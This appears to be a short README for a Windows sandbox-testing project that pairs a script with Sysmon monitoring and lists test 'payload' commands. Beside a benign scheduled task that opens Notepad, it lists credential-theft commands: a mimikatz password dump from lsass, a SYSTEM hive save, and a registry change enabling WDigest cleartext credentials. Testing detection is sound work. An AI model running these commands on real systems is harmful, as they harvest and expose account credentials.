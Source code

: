 # sandbox_test

- sand.py: code
- Sysmon64.exe: sysmon
- sysmonconfig.xml: config

#### note: put Sysmon64.exe and sysmonconfig.xml in C:\Users\\{Username}\Documents

##### payload record:
##### SCHTASKS (powershell only)
```
$time = [DateTime]::Now.AddMinutes(1)

$hourMinute = $time.ToString("HH:mm")

SCHTASKS /Create /SC ONCE /TN "Open Notepad" /TR "notepad.exe" /ST $hourMinute
```
##### SCHTASKS (.bat)
```
1.bat
```


mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit

copy %USERPROFILE%\\Desktop\\SandboxFiles\\sysmonconfig.xml .

whoami

xcopy %USERPROFILE%\\Desktop\\SandboxFiles .  /H  /Y

reg save HKLM\SYSTEM c:\system.save

reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
